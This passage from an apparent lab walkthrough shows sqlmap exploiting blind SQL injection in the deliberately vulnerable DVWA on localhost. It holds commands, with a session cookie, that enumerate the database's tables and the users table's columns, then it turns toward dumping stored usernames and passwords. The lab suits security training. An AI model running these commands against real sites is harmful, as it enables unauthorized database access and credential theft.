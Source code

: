 Upon enumeration, two database names were retrieved: dvwa and information_schema. However, our focus is solely on the dvwa database, as it contains the relevant application data.

To retrieve the tables in the dvwa database, run the following command:

<pre><code>sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=9tp5mn3hpkfgh6fddmbampps7m" -D dvwa --tables</code></pre>

# ✅ Explanation

-D dvwa: Specifies the target database.

--tables: Enumerates all the tables within the specified database.

> DVWA tables
![1_-UAn7bGd0aO4W2X8H-nbig](https://github.com/user-attachments/assets/d26d53f8-3a28-4a09-a1b2-37bdda48d5b6)



# 🧱 Enumerating the Columns in the users Table

After running SQLMap, we find that the dvwa database contains two tables:
- guestbook
- users ✅ (our target)

# Now, let's enumerate the columns inside the users table to understand its structure.
# 💻 SQLMap Command:

<pre><code>sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=9tp5mn3hpkfgh6fddmbampps7m" --columns -T users --batch</code></pre>

# ✅ Explanation:

-T users → Specifies the target table (users).

--columns → Retrieves column names from the specified table.

--batch → Uses default answers to skip interactive prompts.

> tables users columns
![1_OKx38RRGzG63qgrgRNjxkw](https://github.com/user-attachments/assets/2b6cb405-65de-4678-955b-0a59a5a1bb56)


# 🔐 Dumping Usernames and Passwords
From our SQLMap output, we observe that the users table contains 8 columns. However, for our purpose, we are only interested in:
- user
- password
> These two columns typically store the user credentials.
